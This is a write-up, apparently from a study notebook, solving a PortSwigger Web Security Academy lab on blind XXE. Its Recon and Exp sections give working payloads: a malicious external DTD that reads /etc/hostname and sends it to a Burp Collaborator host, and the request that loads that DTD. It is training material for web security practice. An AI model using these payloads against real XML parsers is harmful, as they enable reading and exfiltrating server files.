 ```yaml
---
title: 'Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/External Malicious Server"
---
```


# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, exfiltrate the contents of the /etc/hostname file.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.


## Recon
1. Use the previous method
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://d3hr4hyf51vbe69iuzp4czdzuq0ho6.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/rJz-j9L42.png)
    By using the previous method, we can not achieve our goal which is exfiltrating the host name of the server.

2. A new method
Refer to the hint, we can use the exploit server they provided.
    1. Copy the Collaborator Payload
    2. Complete Malicious Server Payload and Store
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/hostname">
        <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
        %eval;
        %exfil;
        ```
    3. Complete Intercept Packet Payload
        Intercept the packet that you click `Check stock` button in arbitrary product page.
        Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
        ```xml
        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
        ```
    4. Send packet and observe in Collaborator

## Exp - <font color="FF0000">通靈</font>
完整的流程有點複雜，我自己的想法是暫停的封包會因為parameter entity的reference，而觸發`%xxe`而和malicious server產生互動，此時malicious server就可以利用`%eval`和`%exfil`讓`SYSTEM "file:///etc/hostname"`這個指令被執行，並且把結果當作Collaborator的GET參數回傳給Burp Suite，此時我們就可以在Burp Suite的Collaborator中看到hostname是甚麼了。

:::spoiler Malicious Server Payload
```xml!
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ehzsiicgj29cs7nj8035q0r08reh26.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aae00dc044ebfc38406a3db012f0055.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::
:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/HkQPt5843.png)
:::

## Reference
[XXE Lab Breakdown: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://youtu.be/wqwUqHA_AJE)